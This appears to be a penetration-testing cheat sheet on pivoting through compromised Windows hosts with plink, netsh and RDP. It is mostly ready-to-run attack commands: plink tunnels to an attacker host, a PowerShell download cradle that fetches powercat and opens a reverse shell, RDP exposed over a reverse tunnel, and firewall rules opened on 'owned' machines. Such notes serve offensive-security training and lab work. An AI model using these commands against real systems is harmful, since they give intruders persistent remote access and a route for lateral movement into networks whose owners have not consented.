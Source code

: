 # Port Forwarding with Windows Tools

SSH utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`.
ssh.exe behaves as you'd expect.


## Plink

As we won't always have an openSSH client on windows hosts, it can be good to get an understanding of some alternatives.
PuTTY for the CLI.
It has similar features to openSSH, but without remote dynamic port forwarding.

If you are getting an error about algorithm choice when calling plink, consider getting a newer version from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).

*KEEP IN MIND*
Using plink will show your pw in the terminal.
If you are logging your terminal with tmux or anything like that, you will have your password in plaintext after running these commands!
For that reason alone, I personally prefer to use chisel as that tool is capable of covering all the scenarios I have yet to encounter.


### Local Port Forwarding

In the scenario where you have gained access to `SRV1` and you want to forward traffic from `SRV1` port 8000 to port 80 on your kali machine, you can do:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -L 0.0.0.0:8000:${ATTACKER_IP}:80 ${ATTACKER_IP} 
```

This way, if you later pivot to `SRV2` who cannot directly access your web server on your kali machine, you can call `${SRV1_IP}:${SRV1_PORT}` (port 8000 in this example),
to transfer files to `SRV2`.


If you want to combine the HTTP server with the capability to catch a reverse shell, you can do:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -L 0.0.0.0:${SRV1_SHELL_PORT}:${ATTACKER_IP}:${ATTACKER_SHELL_PORT} ${ATTACKER_IP} 
```

Now, trigger a powercat reverse shell from `SRV2`:

```
IEX(New-Object System.Net.WebClient).DownloadString('http://${SRV1_IP}:${SRV1_HTTP_PORT}/powercat.ps1');powercat -c ${SRV1_IP} -p ${SRV1_SHELL_PORT} -e powershell
```

### Remote Port Forwarding

assuming we have `plink.exe` available on the windows host, we can do remote port forwarding with:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_IP} 
```


(note the pipe command which answers `y` to the question about keys. The second time you do it, leave out the piping).
This can also be used to expose RDP:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:127.0.0.1:3389 ${ATTACKER_IP} 
```

Now, you can do the following from `${ATTACKER_IP}`:

```
xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:127.0.0.1:${LISTENING_PORT}
```
## Netsh

Native way of port forwarding from windows (requires admin permissions):
```
netsh interface portproxy add v4tov4 listenport=${OWNED_PORT0} listenaddress=${OWNED_IP0} connectport=${OWNED_PORT1} connectaddress=${OWNED_IP1}
```
If you ever need to add firewall rules to allow traffic to flow through a given port on Windows (also requires admin permissions):
```
netsh advfirewall firewall add rule name="port_forward_ssh_${OWNED_PORT0}" protocol=TCP dir=in localip=${OWNED_IP0} localport=${OWNED_PORT0} action=allow
```
